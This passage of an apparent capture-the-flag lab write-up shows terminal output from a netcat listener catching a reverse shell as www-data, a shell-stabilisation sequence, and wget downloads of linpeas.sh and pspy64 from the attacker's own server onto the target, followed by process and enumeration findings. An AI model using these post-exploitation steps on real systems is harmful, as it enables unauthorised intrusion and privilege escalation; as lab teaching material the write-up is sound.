 ```shell
nc -lvnp 1337  
Listening on 0.0.0.0 1337  
Connection received on 10.10.154.107 44070  
/bin/sh: 0: can't access tty; job control turned off  
$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
$
```

I fix my shell with:
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```

After looking for obvious privilege escalation vectors (suid binaries, sudo -l, netstat -a, crontabs), I dont find anything. I start a local python server and put `linpeas.sh` and `pspy64` on the target machine:
```shell
www-data@ip-10-10-154-107:/tmp$ wget http://10.13.66.123:8000/linpeas.sh  
--2025-09-24 00:30:53--  http://10.13.66.123:8000/linpeas.sh  
Connecting to 10.13.66.123:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 840139 (820K) [text/x-sh]  
Saving to: ‘linpeas.sh’  
  
linpeas.sh          100%[===================>] 820.45K   452KB/s    in 1.8s      

2025-09-24 00:30:56 (452 KB/s) - ‘linpeas.sh’ saved [840139/840139]  
  
www-data@ip-10-10-154-107:/tmp$ wget http://10.13.66.123:8000/pspy64  
--2025-09-24 00:31:04--  http://10.13.66.123:8000/pspy64  
Connecting to 10.13.66.123:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 3104768 (3.0M) [application/octet-stream]  
Saving to: ‘pspy64’  
  
pspy64              100%[===================>]   2.96M   773KB/s    in 3.9s       
2025-09-24 00:31:08 (773 KB/s) - ‘pspy64’ saved [3104768/3104768]
```

Running `pspy64` I see `pyrat.py` being ran when I connect to port `8000`:
```shell
2025/09/24 00:37:14 CMD: UID=0     PID=2114   | python3 /root/pyrat.py
```

Useful `linpeas.sh` output:
```shell
╔══════════╣ Analyzing Github Files
drwxrwxr-x 8 think think 4096 Jun 21  2023 /opt/dev/.git
```
